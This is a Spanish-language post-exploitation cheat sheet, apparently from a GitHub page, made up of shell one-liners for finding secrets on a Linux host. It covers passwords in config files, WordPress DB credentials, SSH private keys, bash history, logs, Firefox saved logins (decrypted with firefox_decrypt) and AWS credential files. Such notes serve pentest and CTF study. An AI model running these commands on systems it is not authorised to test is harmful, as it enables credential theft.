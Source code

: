#### Buscar archivos de configuración:
      for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done

#### Buscar passwords en un archivo con una extención puntual:
      for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done

#### Buscar dbs:
      for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done

#### Buscar contraseñas en archivos de configuración de WP

      cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

#### Buscar notas:
      find /home/* -type f -name "*.txt" -o ! -name "*.*"

#### Buscar scripts:
      for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done

#### Buscar ssh private keys:
      grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"

#### Buscar ssh-rsa:
      grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"

#### Listar las carpetas .ssh
Al listar la carpeta si hay un file KNOWN_HOSTS, este contiene public keys para todos los hosts a los que el usuario se conectó.
            ls ~/.ssh

#### Ver el bash history:
      tail -n5 /home/*/.bash*

#### Buscar contenidos interesantes en logs:
      for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done

#### Buscar credenciales en mozilla:

      ls -l .mozilla/firefox/ | grep default 
      
Luego:

      cat .mozilla/firefox/<log>/logins.json | jq .

##### Podemos desencriptar contraseñas y usuarios guardados en firefox con:
      git clone https://github.com/unode/firefox_decrypt.git

      python3.9 firefox_decrypt.py

#### Obtener credenciales de AWS

Cuando realizamos una autenticación en AWS utilizando el cli o el sdk se genera un conjunto de credenciales que incluyen un Access Key Id y un Secret Access Key. Suele guardarse en:

##### Root:
    /root/.aws/credentials

##### User:

      /home/NombreDeUsuario/.aws/credentials

### Buscar siempre en los mails!!!
